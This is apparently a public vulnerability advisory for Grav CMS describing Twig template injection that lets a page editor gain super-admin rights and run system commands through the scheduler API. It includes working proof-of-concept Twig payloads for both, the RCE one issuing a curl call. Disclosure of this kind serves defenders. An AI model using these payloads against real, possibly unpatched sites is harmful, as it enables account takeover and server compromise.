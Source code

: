 ```yaml
---
title: Grav CMS vulnerability
description: >-
  A zero day vulnerability in content management system.
date: 2025-07-27 09:00:00 +0000
categories: [Vulnerability Reports, Grav CMS ]
tags: [grav cms, ssti,twig injection, rce, cve, bug, open-source, web security ]
author: p1r0x 
---
```


> **CVE‑ID:** CVE‑TBD  
> **Published:** 2025-07-27  
> **Reported:** 2025-04-18  
> **Last Updated:** 2025-07-27  
> **Severity:** CVSS v3.0 Base Score: 8.8 (vector: AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H)  
> **Affected Versions:** From `1.7.0` through `1.7.48` and all prereleases `1.8.1 - 1.8.4`  
> **Fixed Version:** `None`  


---


## 1. Executive Summary

A user with admin panel access and permissions to create or edit pages in Grav CMS can enable Twig processing in the page frontmatter or settings. By injecting malicious Twig expressions, the user can escalate their privileges to (super) admin or execute arbitrary system commands via the scheduler API. This results in both Privilege Escalation (PE) and Remote Code Execution (RCE) vulnerabilities.

---

## 2. Timeline

| Date       | Event                                                         | Days since initial report|
| ---------- | ------------------------------------------------------------- |--------------------------|
| 2025‑04‑18 | Initial disclosure sent via email to maintainers.             |0                         |
| 2025‑04‑21 | Added to upstream Security Advisory board.                    |3                         |
| 2025‑06‑03 | First follow‑up emailed—no reply.                             |46                        |
| 2025‑06‑20 | Comment posted on advisory—no reply.                          |63                        |
| 2025‑07‑19 | Last‑call email sent (1 week deadline).                       |92                        |
| 2025‑07‑27 | Public disclosure.                                            |100                       |

---

## 3. Details & Proof-of-Concept

### 3.1 Details

Grav CMS allows Twig to be executed in page templates if enabled in admin panel (process: twig: true).
A user with publisher/editor privileges, that can create or edit pages and enable twig processing, can thereby inject arbitrary code that will execute in the context of the page render.

This enables exploitation of Grav internal APIs such as:
- `grav.user.update()` and `grav.user.save()` for escalating the current user to super admin or admin
- `grav.scheduler.addCommand()`, `grav.scheduler.save()` and `grav.scheduler.run()` for code execution

The Twig sandbox is not enforced in this context, allowing full access to any backend PHP object and method in the `system/src/Grav/Common` directory.

### 3.2 PoC

> Preconditions:
> - You must have access to at least **editor level** user with permission to create/edit pages (```admin.pages``` access)
> - For Privilege Escalation, you also have to be logged in to the site with the same user as the admin panel.
{: .prompt-info }

#### Steps to reproduce Privilege Escalation:
1. Login into the non-admin page (default at `cms-url/login`).
2. Login to the admin panel, create or edit a page and set the Twig processing to true (Advanced -> Process: Twig: true).
3. Inject the following payload into the page content to escalate privileges:

    {% raw %}
    ```text
    {% set _ = grav.user.update({
        'access': {
            'admin': {
                'login': true,
                'super': true
            }
        }
    }, {}) %}
    {% set _ = grav.user.save() %}
    ```
    {% endraw %}

4. Visit the edited/created page url. The logged in user is now admin. (*Note: For the changes to show, you need to log out of the admin panel and relogin).*

#### Steps to reproduce Remote Code Execution:
1. Login to the admin panel, create or edit a page and set the Twig processing to true (Advanced -> Process: Twig: true).
2. Inject the following payload into the page content to execute commands:

    {% raw %}
    ```text
    {% set _ = grav.scheduler.addCommand('curl', ['http://localhost:8000']) %}
    {% set _ = grav.scheduler.save() %}
    {% set _ = grav.scheduler.run() %}
    ```
    {% endraw %}

3. Visit the page to trigger the execution. The system will issue a `curl` request.

---

## 4. Impact

**Scope:** Remote Code Execution as any authenticated user.  
**Impact:** Full system compromise, data exfiltration, pivot to internal networks.  
**CVSS v3.1 Vector:** CVSS v3.0 vector: AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H  

---

## 5. Mitigation & Patch

Currently, there is no official patch for this exploit.  
I recommend globally turning off twig processing as a temporary fix.

---

## 6. Disclosure & Credits

Discovered and reported by [p1r0x](https://x.com/p1r0xSec){:target="_blank"}.
